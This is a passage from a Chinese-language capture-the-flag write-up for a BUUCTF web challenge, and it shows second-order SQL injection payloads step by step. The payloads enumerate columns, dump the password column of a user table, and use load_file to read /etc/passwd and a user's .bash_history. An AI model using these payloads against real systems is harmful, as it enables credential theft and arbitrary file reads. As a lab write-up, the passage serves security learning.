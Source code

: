 <img src="/images/buuctf-web4/image-20221029113143712.png" alt="image-20221029113143712" style="zoom:67%;" />



```
',content=(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where table_schema=database() and table_name='user'),/* 
留言填写:
*/#
```

![image-20221029113315064](/images/buuctf-web4/image-20221029113315064.png)



```
',content=(select group_concat(password) from user),/* 
留言填写:
*/#
```

![image-20221029113449424](/images/buuctf-web4/image-20221029113449424.png)

这里到最后也没有发现flag,换个思路: 查看一下数据库的账户:

```
',content=user(),/*
留言填写:
*/#
root@localhost
```

发现是`root`用户,尝试读取文件

```
',content=(select load_file('/var/www/html/flag.php')),/* 
',content=(select load_file('/var/www/html/flag.txt')),/* 
',content=(select load_file('/var/www/html/flag')),/* 
',content=(select load_file('/flag')),/*
到这里都没有找到flag的信息,尝试读取一下其他敏感文件
',content=(select load_file('/etc/passwd')),/*   发现了名为www的用户
',content=(select load_file('/home/www/.bash_history')),/*
输出:
cd /tmp/ unzip html.zip rm -f html.zip cp -r html /var/www/ cd /var/www/html/ rm -f .DS_Store service apache2 start

留言填写:
*/#
```